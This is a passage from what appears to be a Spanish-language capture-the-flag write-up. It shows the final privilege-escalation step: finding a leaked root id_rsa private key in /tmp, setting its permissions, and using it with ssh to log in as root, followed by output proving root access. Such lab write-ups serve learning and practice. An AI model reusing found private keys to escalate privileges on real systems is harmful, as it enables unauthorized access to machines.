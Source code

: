 El **output** que nos retorna:
```bash
Enlace encontrado [/var/quarantined/test.jpg], moviéndolo a cuarentena.
```

Tambien revisando en el directorio **tmp** tenemos una llave **id_rsa** que usaremos para intentar loguearnos como **root**
```bash
-rw------- 1 pablo pablo 3381 May  2 16:58 id_rsa
```

Damos permisos
```bash
chmod 600 id_rsa
```

ahora usamos esa llave para migrar a **root**
```bash
# Comando para escalar al usuario: ( root )
ssh -i id_rsa root@localhost
```

---

## Evidencia de Compromiso
Flag de **root**
```bash
root@ef4d59378e3a:~# ls -la /root
-rw-r--r--  1 root root   95 Apr 26 13:30 root.txt
```

```bash
# Captura de pantalla o output final
root@ef4d59378e3a:~# whoami
root
```
